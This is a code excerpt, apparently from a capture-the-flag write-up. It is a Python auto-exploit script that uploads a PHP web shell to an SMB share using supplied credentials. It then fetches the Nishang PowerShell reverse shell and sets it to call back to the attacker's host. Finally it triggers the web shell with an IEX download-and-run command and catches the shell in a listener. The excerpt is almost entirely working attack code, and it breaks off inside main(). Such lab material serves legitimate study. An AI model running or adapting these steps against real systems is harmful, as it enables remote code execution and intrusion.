 ```py
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Setar o handler
def handler(lport,rhost):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %rhost)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Make the upload of the malicious php
def uploadMalPhp(rhost,username,password):
    print("[+] Now, let's upload the php to the SMB!!! [+]")
    os.system('echo "<?php system(\$_REQUEST[\"cmd\"]); ?>" > 0x4rt3mis.php')
    os.system("smbclient -U '" + username + "%" + password + "' //" + rhost + "/new-site -c 'put 0x4rt3mis.php file.php'")
    print("[+] File Uploaded !!!! [+]")

# Mount the payload
def mountPayload(lhost,lport):
    if os.path.isfile('Invoke-PowerShellTcp.ps1'):
        os.system("rm Invoke-PowerShellTcp.ps1")
    print("[+] Let's download the Nishang reverse [+]")
    os.system("wget -q -c https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1")
    print("[+] Download Ok! [+]")
    print("[+] Let's add the call to reverse shell! [+]")
    file = open('Invoke-PowerShellTcp.ps1', 'a')
    file.write('Invoke-PowerShellTcp -Reverse -IPAddress %s -Port %s' %(lhost,lport))
    file.close()
    print("[+] Call added! [+]")

# Get the reverse shell
def getRev(rhost,lhost):
    print("[+] Now, let's get the reverse shell! [+]")
    url = "http://%s:8808/0x4rt3mis.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"cmd": "powershell IEX(New-Object Net.WebClient).downloadString('http://%s/Invoke-PowerShellTcp.ps1')" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=True)
```